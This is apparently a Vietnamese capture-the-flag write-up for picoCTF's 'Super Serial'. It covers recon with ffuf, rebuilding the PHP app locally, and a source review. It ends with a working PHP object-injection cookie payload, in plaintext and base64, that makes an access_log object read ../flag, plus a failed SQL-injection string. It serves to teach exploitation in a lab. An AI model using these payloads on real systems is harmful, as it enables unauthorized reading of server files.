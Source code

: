 # Super Serial
### Thử thách:
- Try to recover the flag stored on this website [http://mercury.picoctf.net:2148/](http://mercury.picoctf.net:2148/)
- Hint: The flag is at ../flag.
### Kiến thức nền:
- PHP deserialization injection.
- Source code auditing.
### Giải quyết vấn đề:
1/ Initial reconnaissance:

- Đề bài cho ta một trang login như sau:
 
![image](https://user-images.githubusercontent.com/61876488/115115640-bb9b0200-9fbf-11eb-866b-30765f2431d4.png)

- Thường thì khi nhìn vào các trang login như thế này thì ta nghĩ ngay đến việc tìm cách bypass để vào được một normal user hay admin nào đó. Tên bài là "Super Serial" làm mình có cảm giác trang login này sẽ bị dính lỗi "PHP deserialization injection". Các lỗi liên quan đến deserialization thường xuất hiện ở các session cookie. Hiểu sơ sơ sau khi login thành công thì mỗi user sẽ được phát 1 cái cookie như này. Tuy nhiên, lại quay về vấn đề cũ, chúng ta vẫn chưa biết làm cách nào để bypass cái trang login này! Thử reconnaissance xem trang login này còn manh mối gì nữa không. Sử dụng [ffuf](https://github.com/ffuf/ffuf) để brute-force directory của URL đã cho:

![image](https://user-images.githubusercontent.com/61876488/115120304-0aa06180-9fd7-11eb-9c65-c5d29e7f870d.png)

- Như vậy, source của trang này gồm 3 file php là index, cookie và authentication. Các bài ctf code bằng php thì hay cho đọc source thông qua file [phps](https://stackoverflow.com/questions/41689479/what-is-the-file-extension-phps-and-what-is-it-used-for). Uầy, bài này cho source thật:
![image](https://user-images.githubusercontent.com/61876488/115120456-d8dbca80-9fd7-11eb-929c-1b36316ad638.png)

Thử đem hết đống source code này về dựng trên local host để xem nó hoạt động như nào. 

2/ Rebuild the environment and review source code:

a) Rebuild the environment:
- Các cài đặt cần thiết: php, sqlite3, các module để kết nối PHP với SQLite3 như pdo_sqlite hay [php-sqlite3](https://www.getastra.com/kb/knowledgebase/how-to-install-sqlite-for-php-on-my-apache-nginx-server/) (kiểm tra các PHP module bằng lệnh `php -m`).
- Để ý trong source phần cookie.php có đoạn sau:
```php
$con = new SQLite3("../users.db");
$username = $this->username;
$password = $this->password;
$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
```
Điều này đồng nghĩa rằng chúng ta phải tạo thêm một file [flat database](https://www.techopedia.com/definition/25330/flat-database) users.db chứa username và password (tất nhiên là fake, btw, chúng ta đang ở local host, thích làm gì mà chả được :v):
\+ Tạo database: `sqlite3 users`
\+ Tạo table: 
```SQL
CREATE TABLE users(
   admin BOOLEAN NOT NULL CHECK (admin IN (0, 1)),
   username VARCHAR(20) NOT NULL,
   password VARCHAR(20) NOT NULL       
)
```
\+ Insert data:
```SQL
INSERT INTO users VALUES ('1','antoine','12345'); // admin account
INSERT INTO users VALUES ('0','messi','12345'); // guest account
```
- Bây  giờ thì chúng ta đã có hai account để login vào là "antoine" và "messi". Test thử xem sao:

\+ antoine:

![image](https://user-images.githubusercontent.com/61876488/115133042-5121aa80-a02f-11eb-8cd5-34d064562029.png)

\+ messi:

![image](https://user-images.githubusercontent.com/61876488/115133101-e0c75900-a02f-11eb-901c-069d7fd75e27.png)

- Nhìn chung sau khi login vào thì ta sẽ được direct đến "authentication.php". Đồng thời trang web sẽ tạo ra một session cookie tên "login" (F12 để check).

b) Review source code:
- index.php:
```php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
```
\+ username và password được gửi đến server thông qua method POST.

\+ username và password được truyền vào object “perm_res” để authenticate.

\+ Nếu method “is_guest” hay “is_admin” của object “perm_res” trả về “true” thì cookie “login” sẽ được tạo ra và header “Location” sẽ set value bằng “authentication.php” (direct từ trang login sang trang “welcome”).

\+ Cookie “login” được tạo ra bằng cách serialize object “perm_res” sau đó base64 và urlencode. (có khả năng khai thác được PHP deserialization).

- cookie.php:
```php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}
```
\+ Hàm is_guest  và is_admin của class permissions hoạt động tương  tự như nhau, đều check 2 attribute username và password của class permission bằng cách truy vấn vào database “users.db” để check xem account có exist hay không. Vì hai hàm này đều sử dụng “prepared statements” và “parameterized queries” để execute truy vấn nên việc inject các object php nhằm mục đích exploit SQLi là bất khả thi. Ví dụ:
`O:11:"permissions":2:{s:8:"username";s:7:"antoine";s:8:"password";s:12:"a' OR 1=1 --";}`
không thể exploit được.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
\+ Khối lệnh if này check xem cookie “login” đã được serialize đúng cách chưa (khi modify lại cookie “login” trên storage cần lưu ý điều này). Nếu không đúng sẽ trả về dòng lỗi “Deserialization error.” kèm theo data bị unserialize lỗi ra. 

- authentication.php:
```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
\+ Class “access_log” có 2 magic method là “__construct” và “__toString”. Trong đó method “__toString” trả về kết quả của hàm read_log. Hàm read_log lại trả về nội dung của file được truyền vào constructor của class “access_log” thông qua hàm file_get_contents.
\+ Magic method sẽ chạy khi class được khởi tạo, do đó chúng ta lợi dụng lỗi PHP deserialization để khởi tạo 1 object “access_log”, truyền vào nó 1 đường dẫn file bất kì, method “__toString” sẽ chạy và in ra nội dung của file. Vì ở trên local host không có file "flag" nên chúng ta sẽ lấy file "access.log" làm ví dụ. Encode (base64 rồi url) và inject payload này vào cookie "login":
` O:10:"access_log":1:{s:8:"log_file";s:10:"access.log";} `
ta được kết quả:

![image](https://user-images.githubusercontent.com/61876488/115134652-31dd4a00-a03c-11eb-8846-3d0923919ab5.png)

3/ Exploitation:

- Vào URL: http://mercury.picoctf.net:2148/authentication.php
- Tạo 1 cookie login với value là: 
`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`
(plaintext: `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`, vì trong hint có ghi "The flag is at ../flag.")
- Refresh lại trang ta thu được flag:

![image](https://user-images.githubusercontent.com/61876488/115134775-600f5980-a03d-11eb-819d-1c30cd4129e7.png)

